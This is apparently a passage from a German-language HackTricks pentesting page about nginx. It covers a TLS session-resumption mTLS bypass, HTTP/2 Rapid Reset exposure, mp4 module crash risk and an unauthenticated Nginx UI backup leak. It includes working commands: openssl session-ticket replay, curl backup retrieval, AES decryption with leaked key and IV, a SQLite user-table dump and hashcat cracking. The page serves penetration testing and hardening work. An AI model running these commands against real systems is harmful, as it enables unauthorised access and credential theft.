4. Ermittle, ob der PoC Heap-, PIE-/Nginx- und libc-Basisspeicheradressen selbst leakt, ASLR als deaktiviert voraussetzt oder Adressen für einen einzelnen Build enthält.
5. Halte Worker-Identität und Neustartverhalten fest. RCE landet normalerweise im Kontext des Workers, während der Master einen abgestürzten Worker ersetzen kann.

Diese konfigurationsorientierte Analyse ergänzt die [Web Vulnerabilities Methodology](../../pentesting-web/web-vulnerabilities-methodology.md): Die Verfügbarkeit eines öffentlichen Exploits und der CVSS-Wert belegen nicht, dass der erforderliche Direktivengraph erreichbar ist.<sup>[[24]](#references)</sup>

## Umgehung der Client-Zertifikatsauthentifizierung durch TLS-Session-Resumption (CVE-2025-23419)

Ein Advisory vom Februar 2025 legte offen, dass nginx 1.11.4–1.27.3, wenn mit OpenSSL gebaut, das **Wiederverwenden einer TLS-1.3-Session** von einem namensbasierten virtuellen Host in einem anderen erlaubt. Dadurch kann ein Client, der eine Verbindung zu einem Host ohne Zertifikatspflicht ausgehandelt hat, das Ticket/PSK wiederverwenden, um in einen durch `ssl_verify_client on;` geschützten vhost zu wechseln und mTLS vollständig zu umgehen. Der Fehler tritt auf, wenn mehrere virtuelle Hosts denselben TLS-1.3-Session-Cache und dieselben Tickets verwenden (siehe das unten referenzierte nginx-Advisory von 2025).<sup>[[5]](#references)</sup>

**Vorgehen des Angreifers**

```bash
# 1. Create a TLS session on the public vhost and save the session ticket
openssl s_client -connect public.example.com:443 -sess_out ticket.pem

# 2. Replay that session ticket against the mTLS vhost before it expires
openssl s_client -connect admin.example.com:443 -sess_in ticket.pem -ign_eof
```

Wenn das Ziel verwundbar ist, wird der zweite Handshake ohne Vorlage eines Client-Zertifikats abgeschlossen und gibt geschützte Pfade preis.

**Was zu prüfen ist**

- Gemischte `server_name`-Blöcke, die `ssl_session_cache shared:SSL` und `ssl_session_tickets on;` gemeinsam verwenden.
- Admin-/API-Blöcke, die mTLS erwarten, aber Einstellungen für gemeinsamen Session-Cache und Tickets von öffentlichen Hosts übernehmen.
- Automatisierungen, die TLS-1.3-Session-Resumption global aktivieren (z. B. Ansible-Rollen), ohne die Isolation von vhosts zu berücksichtigen.

## Resilienz gegen HTTP/2 Rapid Reset (Verhalten von CVE-2023-44487)

Der HTTP/2-Rapid-Reset-Angriff (CVE-2023-44487) betrifft nginx weiterhin, wenn Betreiber `keepalive_requests` oder `http2_max_concurrent_streams` über die Standardwerte hinaus erhöhen: Ein Angreifer öffnet eine HTTP/2-Verbindung, überflutet sie mit Tausenden von Streams und sendet dann sofort `RST_STREAM`-Frames. So wird die Parallelitätsgrenze nie erreicht, während die CPU weiterhin mit der Tear-down-Logik beschäftigt ist. Die nginx-Standardwerte (128 parallele Streams, 1000 Keepalive-Anfragen) halten die Auswirkungen gering; eine „deutliche“ Erhöhung dieser Grenzwerte macht es einfach, Worker sogar mit nur einem Client zu überlasten (siehe den unten referenzierten F5-Bericht).<sup>[[6]](#references)</sup>

**Tipps zur Erkennung**

```bash
# Highlight risky knobs
rg -n "http2_max_concurrent_streams" /etc/nginx/
rg -n "keepalive_requests" /etc/nginx/
```

Hosts, die ungewöhnlich hohe Werte für diese Direktiven offenlegen, sind bevorzugte Ziele: Ein HTTP/2-Client kann die Erstellung von Streams und sofortige `RST_STREAM`-Frames wiederholen, um die CPU dauerhaft auszulasten, ohne das Parallelitätslimit auszulösen.

## Optionale Angriffsfläche des `mp4`-Moduls

Das `ngx_http_mp4_module` ist bei nginx-Assessments weiterhin prüfenswert, da es **standardmäßig nicht kompiliert wird**. Ist es jedoch aktiviert und verwendet ein Location-Block die Direktive `mp4;`, kann eine schädliche MP4-Datei weiterhin zum Absturz eines Workers führen. Das Advisory von 2024 (CVE-2024-7347) zeigte, dass bereits **die Anforderung einer speziell präparierten MP4-Datei über nginx-Pseudo-Streaming** ausreichte, um einen Worker zum Absturz zu bringen; spätere Advisories von 2026 zeigen, dass dieses Modul weiterhin eine wiederkehrende Quelle von Parser-Bugs ist.<sup>[[8]](#references)</sup>

Aus offensiver Sicht ist das relevant, wenn ein Angreifer Folgendes kann:

- Mediendateien hochladen oder ersetzen, die später über nginx ausgeliefert werden
- nginx dazu bringen, vom Angreifer kontrollierte MP4-Dateien aus gemeinsam genutztem Speicher / Object Stores zu parsen
- Video-Endpunkte aufrufen, die auf nginx-Pseudo-Streaming setzen, statt die Datei direkt weiterzureichen

Schnelle Ersteinschätzung auf einem Host oder in einem Container:

```bash
nginx -V 2>&1 | grep -o -- '--with-http_mp4_module'
rg -n '^\s*mp4\s*;' /etc/nginx /usr/local/nginx/conf 2>/dev/null
```

Wenn beide Prüfungen zutreffen, teste jeden Upload-to-Stream-Pfad als potenzielle nginx-Crash-Angriffsfläche und nicht nur als Fehler im Media-Parser auf Anwendungsebene.

## Nginx UI Pre-Auth-Backup-Export + Crypto-Material-Leakage

**Nginx UI** ist ein separates Admin-Panel für nginx, nicht der nginx-Daemon selbst. In **Nginx UI < 2.3.3** ist der Backup-Export-Endpunkt möglicherweise **ohne Authentifizierung** erreichbar, und die Antwort kann außerdem über den Header `X-Backup-Security` den **AES-256-CBC-Schlüssel und IV** preisgeben, die zum Entschlüsseln des Backups benötigt werden. Damit wird aus einem „verschlüsselten Backup-Download“ die unmittelbare **Offenlegung von Zugangsdaten / Tokens / privaten Schlüsseln**.<sup>[[10]](#references)[[11]](#references)</sup>

### Schnelle Versionserkennung anhand von SPA-Assets

Wenn die Login-Seite eine JS-lastige SPA ist, lade das Haupt-Bundle von `/` herunter und suche nach einem dedizierten Versions-Chunk:<sup>[[9]](#references)</sup>

```bash
curl -s http://admin.example/ | grep -oP 'assets/index-[^"]+\.js'
curl -s http://admin.example/assets/index-<hash>.js | grep -oP 'version[-\\w]*\\.js'
curl -s http://admin.example/assets/version-<hash>.js
```

Bei verwundbaren Nginx-UI-Builds wird häufig ein Literal wie `const t="2.3.2"` zurückgegeben. Das reicht aus, um den Build vor der Authentifizierung dem verwundbaren Versionsbereich zuzuordnen.

### Exponierte API-Endpunkte prüfen und das Backup abrufen

Auch wenn die meisten `/api/*`-Routen `403` zurückgeben, sollten Backup-Endpunkte direkt getestet werden:<sup>[[9]](#references)</sup>

```bash
curl -s http://admin.example/api/install
curl -s -D headers.txt -o backup.zip http://admin.example/api/backup
grep -i '^X-Backup-Security:' headers.txt
unzip -l backup.zip
```

Wenn verwundbar, enthält `X-Backup-Security` `base64(key):base64(iv)`. Dekodiere beide Werte und bestätige die erwarteten Längen (**32-Byte-Schlüssel**, **16-Byte-IV**):

```bash
KEY_B64='<base64-key>'; IV_B64='<base64-iv>'
KEY_HEX=$(printf '%s' "$KEY_B64" | base64 -d | xxd -p -c 0)
IV_HEX=$(printf '%s' "$IV_B64" | base64 -d | xxd -p -c 0)
unzip backup.zip -d backup
openssl enc -aes-256-cbc -d -in backup/hash_info.txt -out hash_info.txt -K "$KEY_HEX" -iv "$IV_HEX"
openssl enc -aes-256-cbc -d -in backup/nginx.zip -out nginx_dec.zip -K "$KEY_HEX" -iv "$IV_HEX"
openssl enc -aes-256-cbc -d -in backup/nginx-ui.zip -out nginx-ui_dec.zip -K "$KEY_HEX" -iv "$IV_HEX"
```

Untersuche nach der Entschlüsselung die wiederhergestellten nginx-Konfigurationen und die Anwendungsdaten von Nginx UI. Ein gängiger Post-Exploitation-Pfad ist:

- Reverse-Proxy- und vHost-Details aus `nginx_dec.zip` extrahieren
- `nginx-ui_dec.zip` auf `app.ini`, `database.db`, API-Tokens oder Zertifikatsmaterial untersuchen
- Die SQLite-Tabelle `users` dumpen und wiederhergestellte Passwort-Hashes offline cracken

```bash
unzip nginx-ui_dec.zip -d nginx-ui
sqlite3 nginx-ui/database.db 'select name,password from users;'
hashcat -m 3200 hashes.txt <wordlist>
```

Dieses Muster lohnt sich auch bei anderen Admin-Produkten zu testen: **Ein unauthentifizierter „verschlüsselter“ Export legt weiterhin Klartext offen, wenn die Antwort das Entschlüsselungsmaterial preisgibt oder es zusammen mit dem Archiv speichert.**

## Probier es selbst aus

Detectify hat ein GitHub-Repository erstellt, mit dem du mithilfe von Docker deinen eigenen verwundbaren Nginx-Testserver mit einigen der in diesem Artikel besprochenen Fehlkonfigurationen einrichten und versuchen kannst, sie selbst zu finden!

[https://github.com/detectify/vulnerable-nginx](https://github.com/detectify/vulnerable-nginx)

## Tools für statische Analyse

### [gixy-ng](https://github.com/dvershinin/gixy) & [Gixy-Next](https://gixy.io/) & [GIXY](https://github.com/yandex/gixy)


- [Gixy-Next](https://gixy.io/) (ein aktualisierter Fork von GIXY) ist ein Tool zur Analyse von Nginx-Konfigurationen mit dem Ziel, Schwachstellen, unsichere Direktiven und riskante Fehlkonfigurationen zu finden. Es findet auch Fehlkonfigurationen, die sich auf die Performance auswirken, und erkennt verpasste Härtungsmöglichkeiten, um die automatisierte Erkennung von Schwachstellen zu ermöglichen.
- [gixy-ng](https://github.com/dvershinin/gixy) (der aktiv gepflegte Fork von GIXY) ist ein Tool zur Analyse von Nginx-Konfigurationen mit dem Ziel, Schwachstellen, unsichere Direktiven und riskante Fehlkonfigurationen zu finden. Es findet auch Fehlkonfigurationen, die sich auf die Performance auswirken, und erkennt verpasste Härtungsmöglichkeiten, um die automatisierte Erkennung von Schwachstellen zu ermöglichen.

### [Nginxpwner](https://github.com/stark0de/nginxpwner)

Nginxpwner ist ein einfaches Tool, um nach häufigen Nginx-Fehlkonfigurationen und Schwachstellen zu suchen.

## References

- [1] [Häufige Nginx-Fehlkonfigurationen, die deinen Webserver für Angriffe öffnen](https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/)
- [2] [Schwachstellen im Nginx-Resolver ermöglichen Cache-Poisoning-Angriffe](http://blog.zorinaq.com/nginx-resolver-vulns/)
- [3] [Erkennung des Szenarios, in dem für die map-Direktive kein default angegeben ist · Issue #115 · yandex/gixy](https://github.com/yandex/gixy/issues/115)
- [4] [NVD - CVE-2026-42926: HTTP/2-Request-Injection in ngx_http_proxy_v2_module](https://nvd.nist.gov/vuln/detail/CVE-2026-42926)
- [5] [Nginx-Sicherheitsmitteilung (CVE-2025-23419)](https://mailman.nginx.org/pipermail/nginx-announce/2025/NYEUJX7NCBCGJGXDFVXNMAAMJDFSE45G.html)
- [6] [Auswirkungen des HTTP/2-Rapid-Reset-Angriffs auf F5-NGINX-Produkte](https://www.f5.com/company/blog/nginx/http-2-rapid-reset-attack-impacting-f5-nginx-products)
- [7] [proxy_pass: Nginx' gefährliche URL-Normalisierung von Pfaden](https://joshua.hu/proxy-pass-nginx-decoding-normalizing-url-path-dangerous)
- [8] [Nginx-Sicherheitsmitteilung (CVE-2024-7347)](https://mailman.nginx.org/pipermail/nginx-announce/2024/UUOCLLONPR6244YQYU65PO5LB7JDYCWM.html)
- [9] [HTB: Snapped - 0xdf hackt Dinge](https://0xdf.gitlab.io/2026/04/01/htb-snapped.html)
- [10] [NVD - CVE-2026-27944](https://nvd.nist.gov/vuln/detail/CVE-2026-27944)
- [11] [Nginx UI - Unauthentifizierter Backup-Download mit Offenlegung des Verschlüsselungsschlüssels (GHSA-g9w5-qffc-6762)](https://github.com/0xJacky/nginx-ui/security/advisories/GHSA-g9w5-qffc-6762)
- [12] [Acunetix - Path Traversal durch ein falsch konfiguriertes Nginx-Alias](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/)
- [13] [HTTP-Response-Splitting: Ausnutzung und Gegenmaßnahmen](https://blog.detectify.com/2019/06/14/http-response-splitting-exploitations-and-mitigations/)
- [14] [Sergey Bobrov - Ausnutzung von HTTP-Request-Splitting-Schwachstellen (Vortrag)](https://www.youtube.com/watch?v=gWQyWdZbdoY&list=PL0xCSYnG_iTtJe2V6PQqamBF73n7-f1Nr&index=77)
- [15] [HackerOne-Bericht #370094 - Offenlegung von Nginx-Variablen über SSI](https://hackerone.com/reports/370094)
- [16] [NGINX schützt deine Anwendungen möglicherweise vor Traversal-Angriffen, ohne dass du es weißt](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d)
- [17] [CORS-Playground](https://mizu.re/post/cors-playground)
- [18] [Forschung zu h2c-Smuggling: Request-Smuggling über HTTP/2 im Klartext (h2c)](https://bishopfox.com/blog/h2c-smuggling-request)
- [19] [Nginx-Sicherheitsmitteilung (CVE-2024-31079, CVE-2024-32760, CVE-2024-34161, CVE-2024-35200)](https://mailman.nginx.org/pipermail/nginx-announce/2024/GMY32CSHFH6VFTN76HJNX7WNEX4RLHF6.html)
- [20] [nginx.org - Ngx-Http-Proxy-Modul: Proxy Pass](https://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_pass)
- [21] [nginx.com - X-Accel-Response-Header](https://www.nginx.com/resources/wiki/start/topics/examples/x-accel)
- [22] [DepthFirstDisclosures - NGINX Rift und verwandte PoCs für Nginx-Speicherkorruption](https://github.com/DepthFirstDisclosures/Nginx-Rift)
- [23] [NebuSec - Nginx-PoolSlip-PoC](https://github.com/NebuSec/CyberMeowfia/tree/main/Nginx-PoolSlip)
- [24] [Bishop Fox - Signal von Slop trennen: CVEs im Zeitalter der KI-Sicherheitsforschung triagieren](https://bishopfox.com/blog/triaging-cves-in-age-of-ai-security-research)
{{#include ../../banners/hacktricks-training.md}}
